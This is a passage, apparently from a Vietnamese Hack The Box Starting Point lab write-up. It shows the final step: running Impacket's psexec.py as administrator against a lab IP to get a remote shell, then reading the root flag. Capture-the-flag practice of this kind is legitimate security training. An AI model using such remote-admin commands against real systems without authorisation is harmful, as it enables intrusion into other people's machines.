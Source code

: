 ##### + Dùng tool psexec.py trong Impacket để vào shell với tài khoản admin: 
` python3 psexec.py administrator@10.129.95.187 `

![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/bbb8bda8-b609-440c-8b59-6d6014ac6d3b)
##### => Privillege escalation thành công!
##### Flag của Admin nằm trông C:\Users\Administrator\Desktop\root.txt
` type root.txt `



